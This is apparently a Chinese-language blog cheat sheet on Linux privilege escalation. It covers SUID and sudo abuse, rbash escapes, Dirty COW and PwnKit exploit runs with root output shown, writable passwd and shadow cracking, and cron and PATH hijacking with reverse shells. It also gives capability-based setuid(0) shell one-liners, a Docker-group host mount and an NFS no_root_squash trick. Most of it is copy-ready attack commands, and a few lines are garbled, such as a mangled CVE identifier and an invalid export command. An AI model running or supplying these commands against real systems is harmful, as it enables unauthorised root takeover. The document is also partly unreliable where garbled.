


Linux提权总结
目录
- sudo 和 suid 提权
- rbash 绕过
- 内核提权
- passwd和shadow
- passwd 可写
- 计划任务
- 通配符提权
- 环境变量
- 密码查找
- capabilities
- Docker
- NFS
- pkexec 提权CVE-2021-4034
sudo 和 suid 提权
可利用命令清单
何为suid

可见在权限位置有一个s权限。那么这个s的作用是什么呢？ 答案是当其他用户执行该文件时，该文件会以root的身份执行。 这里就涉及到了Effective UID和Real UID以及Saved UID Effective UID: 程序实际操作时生效的UID Real UID: 执行该程序的用户的实际UID Saved UID: 在高权限用户降权后，保留的其原本UID (不展开说)
所以增加了一个s权限，该程序在实际运行时Effective UID就会变为0，即root的UID
何为sudo
就是能把一个命令视作root来执行,用sudo-l查看可以被sudo的命令
遍历目录中的suid文件
find / -perm -u=s 2>/dev/null
执行该命令，会得到所有suid文件

用sudo -l 查看哪些命令能被sudo
可利用于提权的命令
1.nmap
nmap --interactive
使用nmap的udp或tcp syn扫描时，需要用到root权限，所以有些管理员图方便会直接给namp上s权限，而nmap 5.20(使用nmap -v查看nmap版本)之前有一个interactive交互模式(nmap –interactive)，在nmap effective uid为0时，可以通过这个模式获得root权限交互式命令行，成功提权
echo "os.execute('/bin/bash')" > ./shell
nmap --script=shell
全版本通杀提权，利用nmap可以执行指定文件的特点提权
2.find
find / -exec command
find命令自带-exec参数，可以执行命令，若find有suid权限，那么使用exec相当于直接提权到root.
读文件 find /path -exec {} \;
3.vim
vim有了suid就可以任意文件读取了
同时也可以输入 :shell
来获取root shell
4.bash
bash -p 开启一个新shell，suid的话自然是开启root shell
5.less，more
和vim差不多，任意文件读取，同时也可以输入 !command 进行提权到root
6.exim
exim在特定版本下会有suid提权

下载exp打就完事了
rbash 绕过
何为rbash
rbash，是出于安全性考虑的一个功能受限的bash，我在vulnhub dc-2首次接触,他的限制性可能会有如下.
- cd 切换目录
- 含有斜杠
/的命令, 譬如/bin/sh - 设置 PATH ENV 等环境变量
- 使用
><进行重定向 - binary 的运行. 通常 root 用户会手动创建
/bin/binary_file -> /home/rbash_user/bin/binary_file的软链接, 限制性地提供部分 binary_file 给 rbash_user 使用 在 bash 下echo $SHELL, 可以获取当前环境是否是 rbash.
bypass
scp bypass
我在http://www.const27.com/2020/07/02/vulnhub-dc-2/就是用scp绕的

进入命令自带shell bypass
man,git config help,more,less,vim,vi,ftp,gdb等命令都有自己的shell，我们只需在他们各自的shell中执行/bin/sh即可 一般都是在shell键入!/bin/sh来bypass rbash
下面这种方法也是可行的（似乎仅vim)
:set shell=/bin/bash
:shell
执行上面两个语句，就bypass了
find bypasss
简单概括就是-exec执行一下/bin/bash …

编程语言 bypass
python
如果python都可以用的话，那就更轻松了，os安排一下 似乎pty也行?没试
python -c "import os;os.system('/bin/bash')"
php
php -a 进入php shell
然后执行命令:exec("/bin/bash");
perl
perl -e 'exec "/bin/sh";'
ruby
ruby -e 'exec "/bin/bash"'
cp bypass
直接用cp把/usr/bin里的命令复制过来就行了
直接更改PATH/SHELL变量
键入export -p 查看该用户的变量

如果这俩变量有w权，那么我们可以直接写入来bypass
ssh bypass
原理是通过ssh链接当前IP的当前用户并启动/bin/bash
ssh username@Ip -t "/bin/bash"
内核提权
用 uanme -a 查明内核版本

uname比较看不懂，可以用lsb_release -a

然后找exp打就完事了，内核提权的内容有点底层，暂时不用深入了解
脏牛
查看内核版本:uname -r

2.6.22<kernel version<4.8.3、4.7.9和4.4.26
exp https://github.com/firefart/dirtycow.git
Compile with:
gcc -pthread dirty.c -o dirty -lcrypt
Then run the newly create binary by either doing:
./dirty
or
./dirty my-new-password
Afterwards, you can either su firefart or ssh firefart@...
DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
mv /tmp/passwd.bak /etc/passwd
Exploit adopted by Christian "FireFart" Mehlmauer
cve-cve-2023-cve-2023-35001
v3.13-rc1 <= Linux Kernel < v6.5-rc2
等exp
passwd和shadow
明文密码
/etc/passwd 默认所有用户可读，但只有root可写。 /etc/passwd里的用户口令往往以x代替，其加密后的密码会存入/etc/shadow里面，/etc/shadow默认只有root可读。
但是有小概率情况，明文密码就直接出现在/etc/passwd了，如果有这个情况且root密码暴露在了passwd里，那么就可以轻而易举提权了
passwd 可写
如果/etc/passwd 我们当前用户可写，可以直接把root的密码改成一个明文密码，从而达到提权目的
爆破shadow
如果/etc/shadow 可读，我们可以用hashcat或者john暴力破解shadow文件
计划任务
文件重写
计划任务由crontab管理，非root用户是无法列出root用户的计划任务的，但我们可以列出/etc的系统任务，系统任务默认是root权限运行的
ls -l /etc/cron*
如果我们有幸有权限能更改其中一个任务指定的脚本，我们就可以往脚本里添加如反弹shell等指令，从而提权
环境变量劫持
我们查看定时任务

发现定义了诸多环境变量，如果其任务有未指定绝对路径的指令，如
17 * * * * root shell.sh
而且我们在其环境变量路径中可以进行写入操作，那么我们可以通过写入环境变量的靠前路径一个同名恶意文件从而导致环境变量劫持
比如我们在/sbin 写入一个 反弹shell功能的shell.sh，那么就可以造成提权
通配符提权
https://www.secpulse.com/archives/72965.html 总结的太好了，我都不想记笔记了（偷懒
环境变量
如果我们找到一个suid权限的程序，但是我们无法完成suid提权，就可以试试搭配环境变量进行提权。
这个提权方法的思想是，找到有suid的，内部有system函数调用未指定路径的命令的文件。同时用户有修改自己环境变量的权限，
我们就可以通过劫持system函数里调用的脚本文件，使其指向我们环境变量里自行创建的一个同名脚本文件，那么这个我们自行创建的同名脚本文件就能以root权限运行了，如果这个脚本文件里的命令是/bin/bash，那么就相当于我们提权了。
可能有点小绕，看下面具体操作就行了。
实验室配置:
首先在一个目录下创建如下文件
vim demo.c

然后 gcc demo.c -o shell 将其编译为可执行文件
然后 chmod u+s shell 为其增加suid权限
攻击者视角:
首先使用下列指令搜寻suid权限文件
find / -perm -u=s -type f 2>/dev/null

发现可疑目标，执行一下看看
发现返回了ps命令的结果，我们可以以此猜测这个文件内部 有 system("ps"); 这条c语言代码。 遂可尝试环境变量提权
我们依次执行以下命令
cd /tmp
echo "/bin/bash" > ps
export $PATH=/tmp:$PATH 需要修改自身环境变量的权限，但基本上都有这个权限
chmod 777 ./ps 没这条命令会导致提权失败
cd /home/const27
./shell 提权成功

密码查找
这个提权技术说白了，就是去到处翻密码
文件内查找
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
我们可以通过以上命令，指定关键字，在所有文件中搜索内容中有关键字的文件。
查找十分钟内更改过的文件
find / -mmin -10 2>/dev/null | grep -Ev "^/proc" (不显示^/proc文件或文件夹)
capabilities
capabilities 是linux2.2后出现的产物，它的出现一定程度上弥补了suid这种粗糙的权限管理机制，但是capabilities 自身也有造成提权的安全隐患
简介
capabilities 把root的权限细分了，可以分别启用或者禁用。
在进行特权操作的时候，如果euid不是root，那么系统就会检查是否具有执行特权操作的对应capabilities ，并以此为凭据决定特权操作是否能被执行。
如下是一些常见的特权操作及其对应capabilities
| 改变文件的所属者(chown()) | CAP_CHOWN |
|---|---|
| 向进程发送信号(kill(), signal()) | CAP_KILL |
| 改变进程的uid(setuid(), setreuid(), setresuid()等) | CAP_SETUID |
| trace进程(ptrace()) | CAP_SYS_PTRACE |
| 设置系统时间(settimeofday(), stime()等) | CAP_SYS_TIME |
| 忽略文件读及目录搜索的DAC访问限制 | CAP_DAC_READ_SEARCH |
关于capabilities的管理工具有如下:
- getcap
- setcap
- capsh
- filecap
getcap 用于查询capabilities，setcap用于设置capabilities，capsh用于查当前shell进程的capabilities，filecap既能设置又能查询。
我们可以通过以下指令搜索设置了capabilities的可执行文件
getcap -r / 2>/dev/null
实操
通过cap_setuid
cap_setuid 可以设置当前用户的euid，我们可以通过此选项来进行一些提权。
以python为例

我们发现python3.8 有cap_setuid权限，那么我们可以用以下指令进行提权
python -c 'import os; os.setuid(0); os.system("/bin/sh")'

类似的有很多。
perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
gdb
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
php
php -r "posix_setuid(0); system('/bin/sh');"
python
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
rvim
需要支持python3模块。
rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
vim
需要支持python3模块。vim --version查询，是否支持py3
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
通过CAP_DAC_READ_SEARCH
cap_dac_read_search可以绕过文件的读权限检查以及目录的读/执行权限的检查。
利用此特性我们可以读取系统中的敏感信息。
如果tar有此权限，我们可以通过此来查看敏感文件内容。
tar cvf shadow.tar /etc/shadow //创建压缩文件
tar -xvf shadow.tar //解压缩
cd etc //进入解压缩的目录
chmod +r shadow //赋予读权限
cat shadow | grep root //查看shadow文件的内容
Docker
Docker用户组提权
如果我们拿到了一个Docker用户组的用户权限，那么我们可以很轻松地完成提权
首先我们执行如下命令
docker run -v /:/mnt --rm -it crf_web1 chroot /mnt sh
然后在其中的/etc/passwd中写入一个root权限用户（我这里直接无密码了）

然后退出来，直接尝试 su root2

提权成功
NFS
NFS 是一个用来共享目录的东西，但若配置权限不当则会引发安全问题
no_root_squash
我们cat /etc/exports 如果有no_root_squash字样，则说明root用户就会对共享目录拥有至高的权限控制，就像是对本机的目录操作一样。
也就是说，任何机器的root在此目录上都有最高权限。
我们在获得一台机器的root权限后，可以通过nfs在另一台低权限机器上实现提权
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs 将本机上的/tmp/nfs 挂载到共享目录
cp /bin/bash /tmp/nfs/bash
chmod u+s /tmp/nfs/bash 设置共享目录上bash的suid
回到低权限机，执行 /tmp/bash 完成提权
pkexec 提权CVE-2021-4034
polkit是一个授权管理器，其系统架构由授权和身份验证代理组成，pkexec是其中polkit的其中一个工具，他的作用有点类似于sudo，允许用户以另一个用户身份执行命令
https://github.com/luijait/PwnKit-Exploit.git
debian@debian:~/PwnKit-Exploit$ make
cc -Wall exploit.c -o exploit
debian@debian:~/PwnKit-Exploit$ whoami
debian
debian@debian:~/PwnKit-Exploit$ ./exploit
Current User before execute exploit
hacker@victim$whoami: debian
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully
root@debian:/home/debian/PwnKit-Exploit# whoami
root
root@debian:/home/debian/PwnKit-Exploit#
不受影响的版本
CentOS：
· CentOS 6：polkit-0.96-11.el6_10.2
· CentOS 7：polkit-0.112-26.el7_9.1
· CentOS 8.0：polkit-0.115-13.el8_5.1
· CentOS 8.2：polkit-0.115-11.el8_2.2
· CentOS 8.4：polkit-0.115-11.el8_4.2
Ubuntu：
· Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
· Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
· Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
· Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
· Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1
Debain：
· ：policykit-1 0.105-18+deb9u2
· Debain stretch：policykit-1 0.105-18+deb9u2
· Debain buster：policykit-1 0.105-25+deb10u1
· Debain bullseye：policykit-1 0.105-31+deb11u1
· Debain bookworm,bullseye：policykit-1 0.105-31.1